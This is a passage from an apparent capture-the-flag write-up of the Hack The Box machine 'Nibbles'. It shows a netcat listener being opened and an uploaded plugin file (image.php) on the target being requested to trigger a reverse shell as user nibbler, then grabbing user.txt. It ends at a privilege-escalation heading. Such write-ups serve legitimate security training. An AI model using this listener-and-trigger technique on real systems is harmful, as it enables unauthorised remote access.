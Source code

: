 Open a listener with `nc -lvnp 7500`, and navigate to `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php` to trigger the shell. You'll see a shell for `nibbler` show up on the listener.

![](/assets/htb-nibbles/initial_shell.png)

We can grab `user.txt` from `/home/nibbler/user.txt`

![](/assets/htb-nibbles/user_proof.png)

---

## Privilege Escalation
